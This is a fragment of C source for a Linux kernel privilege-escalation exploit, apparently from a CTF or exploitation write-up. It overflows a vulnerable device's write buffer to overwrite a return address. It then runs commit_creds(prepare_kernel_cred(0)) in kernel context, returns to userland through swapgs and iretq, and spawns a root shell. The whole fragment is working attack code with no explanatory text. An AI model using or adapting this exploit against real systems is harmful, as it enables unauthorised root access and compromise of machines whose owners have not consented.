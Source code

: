 ```c
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void privesc() {
  __asm__(".intel_syntax noprefix;"
          "movabs rax, prepare_kernel_cred;"
          "xor rdi, rdi;"
          "call rax;"
          "mov rdi, rax;"
          "movabs rax, commit_creds;"
          "call rax;"
          "swapgs;"
          "mov r15, user_ss;"
          "push r15;"
          "mov r15, user_sp;"
          "push r15;"
          "mov r15, user_rflags;"
          "push r15;"
          "mov r15, user_cs;"
          "push r15;"
          "mov r15, user_rip;"
          "push r15;"
          "iretq;"
          ".att_syntax;");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x410];
  memset(payload, 'A', ret_off);
  *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```
